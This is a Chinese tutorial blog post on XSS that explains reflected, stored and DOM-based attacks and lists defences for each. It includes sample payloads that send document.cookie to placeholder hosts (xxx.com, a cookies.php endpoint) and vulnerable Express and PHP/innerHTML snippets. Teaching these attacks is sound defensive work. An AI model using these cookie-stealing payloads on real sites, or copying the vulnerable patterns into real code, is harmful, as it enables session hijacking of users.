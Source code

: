 ```yaml
---
layout: post
title:  前端安全之XSS攻击
date: 2018/04/15
---
```


## 定义
XSS（cross-site scripting跨域脚本攻击）攻击是最常见的Web攻击，恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。(摘自百科)  

大体的来说XSS分为三类：

* Reflected XSS（基于反射的XSS攻击）
* Stored XSS（基于存储的XSS攻击）
* DOM-based or local XSS（基于DOM或本地的XSS攻击）

### Reflected XSS
基本原理：后台接收到用户的输入后不经任何处理直接把用户输入的数据“反射”给浏览器，即用户输入的参数直接输出到页面上。
特点：非持久化一般通过url的形式传播

一个典型的列子：
> http://www.xxxx.cn/get?xxx=&lt; script&gt; 'http://xxx.com/get?cookie='+document.cookie&lt; /script&gt;

就像这个例子，后台获取到了xxx的参数，然后不作处理直接输入返回给前端

```javascript
app.post('/get', function(req, res) {
    let xxx = req.query.xxx
    res.json(xxx);
});
```
这样http://www.xxxx.cn/get?xxx=&lt; script&gt; 'http://xxx.com/get?cookie='+document.cookie&lt; /script&gt;这段代码就直接在客户端直接运行了，等获取用户的cookie之后就可以无所欲为了，现在的spa应用路由直接由前端来负责了，其实原理也是一样的，只不过少了服务端返回这一步骤。

防御：

    1. 对一些特殊的标签进行转义； 
    2. 直接过滤掉JavaScript事件标签和一些特殊的html标签； 
    3. 将重要的cookie标记为http only；
    4. 只允许用户输入我们期望的数据；
    5. 对数据进行html encode处理等；

    
### Stored XSS
基本原理： 存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。
特点： 持久化，一旦展现在页面上受众较多

典型的例子：
  这个在博客型网址中较为常见，当用户在发表文章时插入这么一段代码&lt; script&gt; 'http://xxx.com/get?cookie='+document.cookie&lt; /script&gt;倘若后端没过滤，把它直接存储在数据库里头，当其他人看这篇文章的时候，包含的恶意脚本就会执行。正在访问用户的cookie就会被发送到脚本指定的主机里头去，拿到cookies后又可以为所欲为了。
  
防御：


    1. 主要是服务端要进行过滤
    2. 前端也可对一些标签转义

    
### DOM-based or local XSS

基本原理： DOM-Based XSS是一种基于文档对象模型（Document Object Model，DOM)的Web前端漏洞，简单来说就是JavaScript代码缺陷造成的漏洞。与普通XSS不同的是，DOM XSS是在浏览器的解析中改变页面DOM树。

举几个列子：

```javascript
<script>
var img = document.createElement("img");
img.src = "http://xxxxx/cookies.php?cookie="+escape(document.cookie);
</script>
利用img的src属性发送get请求
```

```javascript
<script>document.body.innerHTML="<div style=visibility:visible;><h1>This is DOM XSS</h1></div>";</script> 
利用innerHTML属性直接写入到页面
```

看到这有人可能想问，这些操作我自己在控制台也能进行，一般的来说dom xss与反射型xss还是有比较大的关联的，这些代码一般是通过外部返回的。如下可以反映出一个完整的dom xss攻击过程。

```javascript
<?php
error_reporting(0);
$name = $_GET["name"];
?>

<input id="text" type="text" value="<?php echo $name;?>" />
<div id="print"></div>

<script type="text/javascript">
var text = document.getElementById("text"); 
var print = document.getElementById("print");
print.innerHTML = text.value; // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
</script>
（以上代码转自知乎）
```

防御：
    * 避免客户端文档重写、重定向或其他敏感操作，同时避免使用客户端数据，这些操作尽量在服务器端使用动态页面来实现；
    * 分析和强化客户端JS代码，特别是受到用户影响的DOM对象，注意能直接修改DOM和创建HTML文件的相关函数或方法，并在输出变量到页面时先进行编码转义，如输出到HTML则进行HTML编码、输出到<script>则进行JS编码。

 





